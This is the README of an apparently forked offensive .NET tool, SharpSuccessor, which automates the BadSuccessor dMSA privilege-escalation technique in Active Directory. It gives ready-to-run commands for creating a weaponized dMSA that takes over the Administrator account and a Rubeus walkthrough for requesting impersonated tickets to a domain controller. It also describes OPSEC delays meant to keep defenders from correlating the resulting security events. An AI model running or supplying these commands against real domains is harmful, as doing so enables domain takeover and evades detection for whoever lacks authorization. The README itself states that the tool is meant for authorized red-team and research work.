

<p align="center">
  
</p>

<p align="center">
  <em>Weaponizing the BadSuccessor dMSA privilege-escalation primitive in .NET.</em>
</p>

<p align="center">
  
  
  
  
  
  
</p>

<p align="center">
  <a href="#features">Features</a>&nbsp; - &nbsp;<a href="#build">Build</a>&nbsp; - &nbsp;<a href="#usage">Usage</a>&nbsp; - &nbsp;<a href="#teardown-remove">Teardown</a>&nbsp; - &nbsp;<a href="#opsec">OPSEC</a>&nbsp; - &nbsp;<a href="#license">License</a>&nbsp; - &nbsp;<a href="#credits">Credits</a>
</p>

---

> **Attribution** - Original project by **Logan Goins** ([@_logangoins](https://x.com/_logangoins)):
> <https://github.com/logangoins/SharpSuccessor>.
> This repository is my **independent, enhanced and personal version** of that work. Enhancements done by myself:
> single-round-trip domain interaction, a `remove` teardown command, OPSEC timing (`/opsec`),
> credentialed / remote execution (`/dc`, `/username`, `/password`), hardened argument parsing,
> and real process exit codes. See [OPSEC.md](OPSEC.md) for engagement considerations.

> **Authorized use only** - SharpSuccessor is for sanctioned security assessments, red team
> engagements, and research within the scope of a written authorization. Using it against systems
> you do not own or are not explicitly permitted to test is illegal.

## Overview

A low-privilege user with `CreateChild` permissions over any Organizational Unit (OU) in an Active Directory domain can create a delegated Managed Service Account (dMSA) and link it to a privileged target account, resulting in full account takeover - without touching a domain controller, running DCSync, or modifying privileged group membership.

SharpSuccessor automates the primitive: it creates and weaponizes the dMSA object and writes the superseded-account attributes on the target you wish to impersonate. The technique is based on
Yuval Gordon's ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
research from Akamai.

## Features

- **Minimal domain footprint** - `add` is a single LDAP search (resolving both principals at once) plus two writes; the domain is derived from `/path`, so there is no extra discovery query.
- **Teardown command** - `remove` reverses the attack: resets the target's superseded attributes and deletes the dMSA object.
- **OPSEC timing** - `/opsec` inserts a randomized delay between the two writes to decorrelate the `5137` / `5136` events; tunable with `/delay`.
- **Credentialed / remote execution** - `/dc`, `/username`, `/password` let the tool run against a chosen DC from a non-domain-joined host.
- **Script-friendly** - meaningful process exit codes (`0` success, non-zero on failure) and LDAP-injection-safe input handling.

## Build

Requires the **.NET Framework 4.7.2** developer pack (Windows).

**Visual Studio** - open `SharpSuccessor.sln` and build in `Release` (**Build ▸ Build Solution**, or `Ctrl+Shift+B`).

**MSBuild (Developer Command Prompt)**

```cmd
msbuild SharpSuccessor.sln /p:Configuration=Release /p:Platform="Any CPU"
```

The compiled binary is written to `SharpSuccessor\bin\Release\SharpSuccessor.exe`.

## Usage

```cmd
SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /account:jdoe /name:attacker_dMSA
```


### Arguments

**Required**

| Flag | Description |
| ------ | ------------- |
| `/impersonate` | Account to take over (the superseded target). |
| `/path` | DN of the OU the caller has `CreateChild` over. |
| `/account` | Principal granted read access to the dMSA's managed password. |
| `/name` | Name of the dMSA object to create. |

**Optional**

| Flag | Description |
| ------ | ------------- |
| `/dc` | Target a specific domain controller (host or IP). |
| `/username` / `/password` | Bind with explicit credentials (`DOMAIN\user` or `user@domain`) - run from a non-domain-joined host. |
| `/opsec` | Insert a randomized delay (default 30–180s) between the two directory writes so the `5137` (object create) and `5136` (attribute modify) events do not land in a tightly-correlated cluster. |
| `/delay:<n>` | Override the delay: `/delay:120` (fixed seconds) or `/delay:30-180` (random range). Implies `/opsec`. |

The domain is derived from the `/path` DN, so no extra domain lookup is performed. The whole `add`
operation is **one LDAP search plus two writes**, and the process exit code is `0` on success and
non-zero on failure (usable from scripts).

### Teardown (`remove`)

Clears the `msDS-SupersededManagedAccountLink` / `msDS-SupersededServiceAccountState` attributes on
the impersonated account and deletes the dMSA object:

```cmd
SharpSuccessor.exe remove /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /name:attacker_dMSA
```

Required: `/impersonate`, `/path`, `/name` (the optional `/dc`, `/username`, `/password`, `/opsec`
apply here too).

<details>
<summary><b>Full command-line help</b></summary>

```text
[*] add    Create and weaponize a dMSA object (BadSuccessor), then write the
           superseded-account attributes on the account you want to take over.

    SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" \
                          /account:jdoe /name:attacker_dMSA

      Required: /impersonate  Account to take over (superseded target).
                /path         DN of the OU the caller can CreateChild in.
                /account      Principal granted read access to the dMSA password.
                /name         Name of the dMSA object to create.

[*] remove Clean up: clear the superseded-account attributes on the target and
           delete the dMSA object (for authorized engagement teardown).

    SharpSuccessor.exe remove /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" \
                             /name:attacker_dMSA

      Required: /impersonate  Account whose attributes should be reset.
                /path         DN of the OU the dMSA was created in.
                /name         Name of the dMSA object to delete.

    Optional (both commands):
      /dc            Target a specific domain controller (host or IP).
      /username      Bind with explicit credentials (DOMAIN\user or user@domain).
      /password      Password for /username.
      /opsec         Insert a randomized delay (default 30-180s) between the two
                     directory writes to decorrelate the 5137/5136 events.
      /delay:<n>     Override the delay: /delay:90 (fixed) or /delay:30-180 (range),
                     in seconds. Implies /opsec.
```

</details>

## Post-exploitation workflow

<details>
<summary><b>Full Rubeus walkthrough (dMSA ticket -> Administrator context)</b></summary>

Request a TGT as the current user context, in this case `jdoe`:

```cmd
Rubeus.exe tgtdeleg /nowrap
```


Use that TGT to impersonate the dMSA account:

```cmd
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIFTDCCB.....
```


Then request a service ticket with the impersonated (Administrator) context for any SPN, including
the domain controllers for post-exploitation - for example SMB on the DC:

```cmd
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```


With the ticket in memory, test access:


</details>

## OPSEC

See [OPSEC.md](OPSEC.md) for the technique's on-wire footprint, the detection events it emits
(`5137` / `5136` / `4769` / `4662`), stealth guidance, and teardown caveats.

## License

Released under the [MIT License](LICENSE).

The upstream project was published without a license. This repository's enhancements are MIT-licensed
by **simonl01**; credit for the original SharpSuccessor and the underlying BadSuccessor research
remains with the authors listed below.

## Credits

- **Logan Goins** ([@_logangoins](https://x.com/_logangoins)) - original [SharpSuccessor](https://github.com/logangoins/SharpSuccessor).
- **Yuval Gordon** ([@YuG0rd](https://x.com/YuG0rd)) / Akamai - [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) research.
- **Jim Sykora** ([@JimSycurity](https://github.com/JimSycurity)) and **Garrett Foster** ([@unsigned_sh0rt](https://x.com/unsigned_sh0rt)) - inspiration and assistance for the original tool.

Enhancements done by myself.
